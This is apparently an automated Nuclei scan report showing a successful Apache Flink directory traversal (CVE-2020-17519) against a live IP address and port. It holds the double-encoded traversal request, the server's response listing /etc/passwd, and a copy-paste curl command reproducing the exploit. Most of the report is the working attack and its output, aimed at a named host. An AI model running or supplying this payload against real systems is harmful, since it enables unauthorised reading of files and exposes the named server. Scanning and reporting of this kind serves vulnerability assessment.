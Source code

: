 ### Apache Flink directory traversal (CVE-2020-17519:regex-2) found on http://123.58.236.76:53074
---
**Details**: **CVE-2020-17519:regex-2**  matched at http://123.58.236.76:53074

**Protocol**: HTTP

**Full URL**: http://123.58.236.76:53074/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

**Timestamp**: Fri Apr 15 00:10:05 +0300 +03 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Apache Flink directory traversal |
| Authors | pdteam |
| Tags | cve, cve2020, apache, lfi, flink |
| Severity | high |
| Description | A change introduced in Apache Flink 1.11.0 (and released in 1.11.1 and 1.11.2 as well) allows attackers to read any file on the local filesystem of the JobManager through the REST interface of the JobManager process. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N) |
| CWE-ID | [CWE-552](https://cwe.mitre.org/data/definitions/552.html) |
| CVE-ID | [CVE-2020-17519](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2020-17519) |
| CVSS-Score | 7.50 |

**Request**

```http
GET /jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: 123.58.236.76:53074
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**

```http
HTTP/1.1 200 OK
Content-Length: 964
Content-Type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flink:x:9999:9999::/opt/flink:/bin/sh

```

References: 
- https://github.com/b1anda0/cve-2020-17519

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36' 'http://123.58.236.76:53074/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd'
```
---
Generated by [Nuclei 2.6.7](https://github.com/projectdiscovery/nuclei)